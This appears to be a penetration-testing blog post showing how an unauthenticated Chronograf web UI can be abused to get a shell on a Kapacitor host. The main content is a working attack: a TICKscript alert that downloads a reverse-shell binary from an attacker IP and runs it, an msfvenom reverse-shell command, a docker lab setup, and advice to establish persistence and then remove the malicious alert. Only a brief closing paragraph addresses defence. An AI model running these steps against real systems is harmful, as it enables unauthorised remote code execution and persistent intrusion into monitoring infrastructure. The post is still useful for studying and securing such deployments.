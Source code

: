 ```yaml
---
layout: post
title:  "TICK Stack: Getting Kapacitor Shells via Chronograf"
toc: true
date:   2020-06-17
categories: network-pentest
---
```


# Motivation 

Depending on the devops culture of the teams you're consulting with, you may come across the [TICK stack](https://www.influxdata.com/time-series-platform/) during an engagement. The TICK stack is a set of tools which makes metrics collection, system monitoring, and alerting easy for deployments. It's also yet another set of tools which ships with no authentication by the default.

If you find an open Chronograf instance (default listening port is 8888), you may be able to abuse it to gain code execution on a related stack component (Kapacitor). The execution may happen on the Chronograf host itself, or a network-connected Kapacitor host, depending on the configuration.

# Prerequisites

You've found an open Chronograf instance (no-auth by default), or you've obtained credentials to one. 

At the time of writing this technique works against the latest Chronograph/Kapacitor versions.

# Exploiting

Depending on what you have access to in the network, Kapacitor has an [HTTP API](https://docs.influxdata.com/kapacitor/v1.5/working/api/), which we could use to script this attack directly (port 9092 is the default if you're looking for Kapacitor instances), though in this post I'll show how to get a shell via the Chronograf gui.

Once in the Chronograph web ui, click on the 'Alerts -> Manage Alerts' page in the left navigation bar

![](/screens/kapacitor-chronograf-view.png)

From here, you can create a new 'TICKscript'

![](/screens/kapacitor-write-tickscript.png)

... paste in an appropriate [payload](/downloadable/kapacitor-tickscript):

![](/screens/kapacitor-select-db-and-save.png)

choose a database and save the script. This [example payload](/dowloadable/kapacitor-tickscript) operates against the built-in `_internal` database, and should execute the code if there are more than 0 measurements in the database.

The key section of the [script](/downloadable/kapacitor-tickscript) is the alert which executes code on the host (here, curling out to the attacker on 172.21.0.1:

```
var trigger = data
    |alert()
        .crit(lambda: "value" > crit)
        .message(message)
        .id(idVar)
        .idTag(idTag)
        .levelTag(levelTag)
        .messageField(messageField)
        .durationField(durationField)
        .exec('curl', '172.21.0.1/reverse-shell', '-o', '/tmp/reverse-shell')
        .exec('chmod', '+x', '/tmp/reverse-shell')
        .exec('/tmp/reverse-shell')

```

Once the script has been saved the alert becomes active and will execute every 10 seconds (under the default config). I'd recommend getting a shell, establishing persistence, and then removing the malicious alert.

![](/screens/kapacitor-payload-executes.png)

# Try it out 

The following should work on a UNIX system with docker and `jq` installed.

Run this bash script to kick off a simulated influx-kapacitor-chronograf setup:

```bash
# saved as start.sh in examples
netcheck=`docker network list | grep influxdb`

if [ -z "$netcheck" ]; then
	echo "creating influxdb docker network"
	docker network create influxdb
fi

# generate a default kapacitor config
docker run --rm kapacitor  kapacitord config > kapacitor.conf

# start influx db on the influxdb network
docker run --rm --net=influxdb -d --name=influxdb influxdb

# start up kapacitor
docker run -d -p 9092:9092 \
    --rm \
    --name=kapacitor \
    --net=influxdb \
    -e KAPACITOR_INFLUXDB_0_URLS_0=http://influxdb:8086 \
    kapacitor

# chronograph (ui) pointed at right endpoints
docker run --rm -d -p 8888:8888 \
      --net=influxdb \
      --name=chronograf \
      chronograf --influxdb-url=http://influxdb:8086 --kapacitor-url=http://kapacitor:9092


echo "setup finished. Network is laid out as"
docker network inspect influxdb | jq '.[].Containers[] | .Name + ": " + .IPv4Address'
```
![](/screens/kapacitor-network-start.png)


Generate a reverse shell with msfvenom changing IPs as necessary:

```bash
msfvenom  -p linux/x86/shell_reverse_tcp LHOST=172.21.0.1 LPORT=9999 -f elf -o reverse-shell
```

Set up a quick web server for the chronograf instance to grab the reverse-shell binary.

Navigate to the chronograf endpoint and run the attack steps (remember to sub in the correct IP in the TICKscript).



# If You're Defending

The usual advice applies here - don't let developers run administrative services on your network without authentication required (or if they REALLY must, try to firewall off the access as much as you can).

